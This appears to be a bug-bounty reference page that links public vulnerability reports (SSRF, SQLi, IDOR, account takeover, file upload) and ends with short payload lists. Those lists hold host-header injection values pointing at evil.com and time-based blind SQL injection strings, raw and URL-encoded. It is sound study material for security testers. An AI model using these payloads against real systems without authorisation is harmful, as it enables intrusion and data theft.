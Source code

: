 
```
https://bugcrowd.com/sorare
https://bugcrowd.com/kiteworks
https://medium.com/@bathinivijaysimhareddy/tale-of-account-takeovers-part-1-b24e1f3c3187
https://hackerone.com/reports/1356845

一个沙雕
https://hackerone.com/jaka_tingkir?type=user
有很多dos的报告
https://hackerone.com/cs_money/hacktivity?type=team
```

# Bug Bounty Reference

### sqli
- [My Bug Bounty Journey and My First Critical Bug — Time Based Blind SQL Injection](https://marxchryz.medium.com/my-bug-bounty-journey-and-my-first-critical-bug-time-based-blind-sql-injection-aa91d8276e41)

### SSRF 
- [入门](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)
- [入门](https://blog.detectify.com/2019/01/10/what-is-server-side-request-forgery-ssrf/)
- [$1.000 SSRF in Slack](https://elbs.medium.com/1-000-ssrf-in-slack-7737935d3884) by Elber Andre
- [SSRF’s up! Real World Server-Side Request Forgery](https://www.shorebreaksecurity.com/blog/ssrfs-up-real-world-server-side-request-forgery-ssrf/)
- [Exploiting SSRF in AWS Elastic Beanstalk](https://notsosecure.com/exploiting-ssrf-aws-elastic-beanstalk) by notsosecure
- [Stored XSS, and SSRF in Google using the Dataset Publishing Language](https://s1gnalcha0s.github.io/dspl/2018/03/07/Stored-XSS-and-SSRF-Google.html) by Craig Arendt
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876) by 0xacb

### Direct Object Reference (IDOR)
- [IDOR for X-Pid header allowed user with observer role to elevate privileges for SQS service of MCS (sqs.mcs.mail.ru) by using role from the different project.](https://hackerone.com/reports/1177451) by mrd0x1

### Unrestricted File Upload
- [Shell upload in http://widget.support.my.com/](https://hackerone.com/reports/317043) by danila
- [Unrestricted file upload on [ambassador.mail.ru]](https://hackerone.com/reports/854032) by organdonor

### Authentication Bypass
- [Improper Authentication - any user can login as other user with otp/logout & otp/login](https://hackerone.com/reports/921780) by korniltsev
- [Change any Uber user's password through /rt/users/passwordless-signup - Account Takeover (critical)](https://hackerone.com/reports/143717) by mongo
- [Account Takeover at worki.ru](https://hackerone.com/reports/725707) by r0hack
- [Forgot Password Page SMS Brute Force could lead to Account Takeover using Android/IOS app "About the house" via api.prodom.smart.space](https://hackerone.com/reports/944392) by jayesh25
- [Account takeover through password reset in cups.mail.ru](https://hackerone.com/reports/843160) by weev3kyaw
- [Lack of rate limitation on careers site allows the attacker to brute force the verification code](https://hackerone.com/reports/1075827) by iambouali
- [Full account takeover of any user through reset password](https://hackerone.com/reports/1175081) by saajanbhujel
- [Password reset link injection allows redirect to malicious URL](https://hackerone.com/reports/281575) by cablej 
- [Password Reset - query param overrides postdata](https://hackerone.com/reports/96636) by reecer

### Business Logic Flaw
- [Modify in-flight data to payment provider Smart2Pay](https://hackerone.com/reports/1295844) by drbrix
```
Amount=2000&CustomerEmail=brixamount100abc%40███████&Hash=███
Amount2=000&CustomerEmail=brix&amount=100&ab=c%40██████████&Hash=█████████
```

### Miscellaneous
- [Bypass Rate Limits on app.snapchat.com API Endpoint via X-Forwarded-For Header](https://hackerone.com/reports/727487) by sicarius
- [Client IP Spoofing using "X-Forwarded-For: 127.0.0.1" on "studio-app.snapchat.com" exposing bucket details](https://hackerone.com/reports/382678) by damian89
- [Error Page Content Spoofing or Text Injection](https://hackerone.com/reports/1245051) by princej_76
- [Password reset link not expiring after changing password in settings](https://hackerone.com/reports/1288898) by blackbibin


### recon win 
- [API on campus-vtc.com allows access to ~100 Uber users full names, email addresses and telephone numbers.](https://hackerone.com/reports/580268) by healdb
- [Administrator access to a Django Administration Panel on *.sc-corp.net via bruteforced credentials](https://hackerone.com/reports/128114) by shubs


host-header-injection
```
Host: example.com?.mavenlink.com
X-Forwarded-Host: evil.com
Referrer: https://evil.com
localhost.attacker.com or localhostattacker.com
Host: redacted.com?anythin<b>imran</b> or Host: redacted.com?"><a href='evil.com
```

SQL INJECT
```
'and(select*from(select+sleep(30))a/**/union/**/select+1)='
%27and%28select%2Afrom%28select%2Bsleep%2830%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
'XOR(if(now()=sysdate(),sleep(30),0))OR'
%27XOR(if(now()%3dsysdate(),sleep(30),0))OR%27
"and(select*from(select+sleep(30))a/**/union/**/select+1)="
%22and%28select%2Afrom%28select%2Bsleep%2830%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%22
"XOR(if(now()=sysdate(),sleep(30),0))OR"
%22XOR(if(now()%3dsysdate(),sleep(30),0))OR%22
```


